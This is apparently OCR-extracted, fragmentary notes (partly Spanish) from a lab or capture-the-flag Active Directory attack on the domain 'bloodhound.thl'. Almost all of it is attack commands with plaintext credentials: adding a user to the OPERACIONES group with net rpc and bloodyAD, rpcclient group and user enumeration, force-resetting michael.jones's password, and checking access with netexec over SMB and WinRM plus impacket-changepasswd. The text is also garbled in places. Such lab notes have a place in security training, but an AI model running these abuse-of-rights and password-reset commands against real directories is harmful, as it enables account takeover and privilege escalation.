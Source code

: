 └─ net rpc group addmem 'OPERACIONES' 'patricia.brown' -U 'bloodhound.thl/patricia.brown%Patito12345' -S elevator.bloodhound.thl
                                                                                                                                                                                                                                                            
└─ net rpc group addmem 'OPERACIONES' 'michael.jones' -U 'bloodhound.thl/patricia.brown%Patito12345' -S elevator.bloodhound.thl




## net rpc group delmem 'OPERACIONES' 'patricia.brown' -U 'bloodhound.thl/patricia.brown%Patito12345' -S elevator.bloodhound.thl



## bloodyAD --host ELEVATOR.bloodhound.thl -d bloodhound.thl -u 'patricia.brown' -p 'Patito12345' add groupMember OPERACIONES patricia.brown


roup:[Enterprise Domain Controllers de sólo lectura] rid:[0x1f2]
group:[Administradores clave de la organización] rid:[0x20f]
group:[DnsUpdateProxy] rid:[0x44e]
group:[finanzas] rid:[0x456]
group:[marketing] rid:[0x459]
group:[operaciones] rid:[0x45b]


rpcclient $> querygroupmem 0x45b
        rid:[0x45a] attr:[0x7]

rpcclient $> queryuser 0x45a
        User Name   :   patricia.brown
        Full Name   :   Patricia Brown
        Home Drive  :
        Dir Drive   :


------------------------------------------------------------------------



### Vamos a cambiarle de contrasena al usuario michael.jones

net rpc password "michael.jones" "Patito12345" -U "bloodhound.thl"/"patricia.brown"%"Patito12345" -S 192.168.56.105

bloodyAD --host ELEVATOR.bloodhound.thl -d bloodhound.thl -u 'patricia.brown' -p 'Patito12345' set password michael.jones 'Patito12345'

netexec smb 192.168.56.105 -u michael.jones -p 'Patito12345' 




netexec winrm -i 192.168.56.105 -u patricia.brown -p 'Patito12345'



impacket-changepasswd bloodhound.thl/patricia.brown@192.168.56.105 -newpass Patito12345 -altuser  bloodhound.thl/michael.jones -altpass Password@1 -reset
                 
